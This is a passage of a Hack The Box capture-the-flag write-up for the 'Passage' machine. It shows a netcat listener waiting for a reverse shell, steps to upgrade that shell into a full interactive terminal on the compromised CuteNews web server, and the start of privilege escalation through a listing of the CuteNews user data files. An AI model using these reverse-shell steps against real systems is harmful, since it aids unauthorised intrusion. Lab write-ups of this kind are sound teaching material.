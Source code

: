 ## Listening on the local box on port 9001
```console
local@local:~/Documents/htb/boxes/passage$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
```
  
    
And after executing the payload, we get a shell back.
![12](/assets/images/passage/12.png)

## Getting a proper shell
On reverse shell
```console
$:~ python -c "import pty;pty.spawn('/bin/bash')" 
```
Hit fg to background the current process and on local box type 
```console 
$:~ stty raw -echo
``` 
and type `fg` and hit enter twice.  
And on the reverse shell export your TERM variable as xterm.
```console
www-data@passage:/var/www/html/CuteNews/uploads$ export TERM=xterm
```
Now we get a proper shell with autocompletion.

# Privilege Escalation
By looking around, I found something interesting.  
```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls -la
total 116
drwxrwxrwx  2 www-data www-data 4096 Sep 18 06:23 .
drwxrwxrwx 11 www-data www-data 4096 Sep 18 06:20 ..
-rw-r--r--  1 www-data www-data  641 Sep 18 05:57 09.php
-rw-r--r--  1 www-data www-data  109 Aug 30 16:23 0a.php
-rw-r--r--  1 www-data www-data  125 Aug 30 16:23 16.php
-rwxr-xr-x  1 www-data www-data  437 Jun 18 09:50 21.php
-rw-r--r--  1 www-data www-data  181 Sep 18 06:20 26.php
-rw-r--r--  1 www-data www-data  109 Aug 31 14:54 32.php
-rwxr-xr-x  1 www-data www-data  113 Jun 18 08:28 52.php
-rw-r--r--  1 www-data www-data  565 Sep 18 06:23 56.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18 08:24 5d.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18 08:28 66.php
-rw-r--r--  1 www-data www-data  133 Aug 31 14:54 6e.php
-rw-r--r--  1 www-data www-data  105 Sep 18 05:39 73.php
-rwxr-xr-x  1 www-data www-data  117 Jun 18 08:27 77.php
-rwxr-xr-x  1 www-data www-data  481 Jun 18 09:07 7a.php
-rw-r--r--  1 www-data www-data  113 Sep 18 06:20 86.php
-rwxr-xr-x  1 www-data www-data  109 Jun 18 08:24 8f.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18 08:28 97.php
-rwxr-xr-x  1 www-data www-data  489 Jun 18 09:05 b0.php
-rw-r--r--  1 www-data www-data  121 Sep 18 05:39 b6.php
-rwxr-xr-x  1 www-data www-data  481 Jun 18 09:46 c8.php
-rwxr-xr-x  1 www-data www-data   45 Jun 18 08:26 d4.php
-rwxr-xr-x  1 www-data www-data   45 Jun 18 09:08 d5.php
-rw-r--r--  1 www-data www-data 1213 Aug 31 14:55 d6.php
-rw-r--r--  1 www-data www-data  373 Sep 18 04:21 d7.php
-rw-r--r--  1 www-data www-data  121 Sep 18 04:21 dc.php
-rwxr-xr-x  1 www-data www-data  113 Jun 18 08:28 fc.php
-rw-r--r--  1 www-data www-data 3840 Aug 30 17:54 lines
-rw-r--r--  1 www-data www-data    0 Jun 18 08:24 users.txt
www-data@passage:/var/www/html/CuteNews/cdata/users$ 
```